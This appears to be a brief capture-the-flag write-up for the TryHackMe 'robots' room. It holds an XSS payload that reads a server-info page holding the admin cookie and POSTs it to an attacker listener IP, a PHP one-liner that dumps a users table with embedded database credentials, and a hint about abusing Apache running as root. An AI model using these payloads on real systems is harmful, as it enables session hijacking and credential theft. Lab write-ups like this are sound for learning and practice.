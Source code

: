 command used on TryHackMe robots room (https://tryhackme.com/room/robots)

video walk through:

https://youtu.be/ZAylF3vSzzQ

XSS payload using post request to get admin cookie by sending server_info.php file

<script>fetch('http://robots.thm/harm/to/self/server_info.php').then(r=>r.text()).then(t=>fetch('http://10.10.74.83:8000/catch',{method:'POST',body:t}))</script>

php one line command to query users table:

php -r '$pdo=new PDO("mysql:host=db;dbname=web;charset=utf8mb4","robots","q4qCz1OflKvKwK4S",[PDO::ATTR_ERRMODE=>PDO::ERRMODE_EXCEPTION,PDO::ATTR_DEFAULT_FETCH_MODE=>PDO::FETCH_ASSOC]);$r=$pdo->query("SELECT * FROM users");while($row=$r->fetch()){print_r($row);}'

As apache2 is running as root, you can create custome config:

thm.conf see repo.
